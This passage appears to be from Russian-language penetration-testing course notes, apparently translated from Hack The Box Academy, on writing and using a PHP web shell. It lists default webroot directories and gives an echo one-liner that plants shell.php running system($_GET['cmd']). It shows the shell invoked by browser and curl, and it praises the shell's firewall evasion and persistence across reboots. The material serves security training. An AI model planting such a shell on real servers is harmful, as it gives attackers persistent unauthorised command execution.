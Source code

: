Когда у нас есть веб-оболочка, нам нужно поместить сценарий веб-оболочки в веб-каталог удаленного хоста \(веб-каталог\), чтобы выполнить сценарий через веб-браузер. Это может быть из-за уязвимости в функции загрузки, которая позволит нам записать одну из наших оболочек в файл, то есть shell.php, и загрузить его, а затем получить доступ к нашему загруженному файлу для выполнения команд.

Однако, если у нас есть только удаленное выполнение команд с помощью эксплойта, мы можем записать нашу оболочку непосредственно в корневой каталог, чтобы получить к нему доступ через Интернет. Итак, первый шаг - определить, где находится веб-корневой каталог. Ниже перечислены веб-корневые каталоги по умолчанию для общих веб-серверов:

| Web Server | Default Webroot |
| :--- | :--- |
| `Apache` | /var/www/html/ |
| `Nginx` | /usr/local/nginx/html/ |
| `IIS` | c:\inetpub\wwwroot\ |
| `XAMPP` | C:\xampp\htdocs\ |

Мы можем проверить эти каталоги, чтобы увидеть, какой веб-корневой каталог используется, а затем использовать echo для записи нашей веб-оболочки. Например, если мы атакуем хост Linux, на котором запущен Apache, мы можем написать оболочку PHP с помощью следующей команды:

```bash
echo "<?PHP system(\$_GET['cmd']);?>" > /var/www/html/shell.php
```

### **Accessing Web Shell**

После того, как мы напишем нашу веб-оболочку, мы сможем получить к ней доступ через браузер или с помощью cURL. Мы можем посетить страницу shell.php на взломанном веб-сайте и использовать? Cmd = id для выполнения команды id:

```bash
http://SERVER_IP:PORT/shell.php?cmd=id
```

![](../../.gitbook/assets/image%20%286%29.png)

Другой вариант - использовать cURL:

```bash
spike@htb[/htb]$ curl http://SERVER_IP:PORT/shell.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Как мы видим, мы можем продолжать изменять команду, чтобы получить ее результат. Большим преимуществом веб-оболочки является то, что она обходит любые существующие ограничения брандмауэра, поскольку она не открывает новое соединение на порту, а запускается на веб-порту на 80 или 443, или на любом другом порту, который использует веб-приложение. Еще одно большое преимущество заключается в том, что если скомпрометированный хост перезагружен, веб-оболочка все еще будет на месте, и мы сможем получить к ней доступ и выполнить команду, не используя снова удаленный хост.
